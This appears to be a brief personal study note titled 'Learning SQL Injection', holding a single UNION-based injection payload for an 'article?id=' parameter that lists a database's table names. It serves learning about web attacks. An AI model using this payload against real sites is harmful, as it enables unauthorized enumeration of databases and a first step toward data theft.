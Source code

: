 # Learning SQL Injection

Just taking some notes about different SQL Injections.

---------------------------------------------

#### * This will display the tables
```
	- article?id=0 UNION SELECT 1,2,group_concat(table_name) FROM information_schema.tables WHERE table_schema = database()--
```